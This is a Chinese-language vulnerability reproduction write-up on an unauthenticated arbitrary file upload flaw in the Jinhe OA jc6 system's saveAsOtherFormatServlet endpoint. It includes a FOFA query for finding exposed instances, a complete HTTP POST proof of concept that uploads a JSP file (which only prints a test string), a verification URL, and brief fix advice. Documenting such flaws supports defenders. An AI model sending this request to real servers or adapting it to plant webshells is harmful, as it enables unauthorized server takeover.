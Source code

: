 
# 金和OA jc6 任意文件上传漏洞复现

### 0x01 产品简介

   金和[OA](https://so.csdn.net/so/search?q=OA&spm=1001.2101.3001.7020)协同办公管理系统软件（简称金和OA），本着简单、适用、高效的原则，贴合企事业单位的实际需求，实行通用化、标准化、智能化、人性化的产品设计，充分体现企事业单位规范管理、提高办公效率的核心思想，为用户提供一整套标准的办公自动化解决方案，以帮助企事业单位迅速建立便捷规范的办公环境。

### 0x02 漏洞概述

   金和OA jc6系统saveAsOtherFormatServlet接口处存在任意文件上传漏洞，未经身份认证的攻击者可利用此漏洞上传恶意后门文件，最终可导致服务器失陷。 

### 0x03 复现环境

FOFA：app="金和网络-金和OA"

![](assets/1699929237-bda0d44f0b2dc26b3d8d4189efabcfc9.png)

### 0x04 漏洞复现 

PoC

```cobol
POST /jc6/servlet/saveAsOtherFormatServlet?fileName=test.jsp HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Connection: close
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="FileBlod";filename="test.jsp"
Content-Type: image/png

<% out.println("123456");%>
------WebKitFormBoundary
```

![](assets/1699929237-8f950e17d5b58994ce7fe5c1db8415a8.png)

验证url

```cobol
http://your-ip/jc6/upload/gwzw/test.jsp
```

![](assets/1699929237-91cb4709862e54f0cc712da0ae9e86c1.png)

### 0x05 修复建议

  关闭互联网暴露面或设置接口访问权限

 升级至安全版本
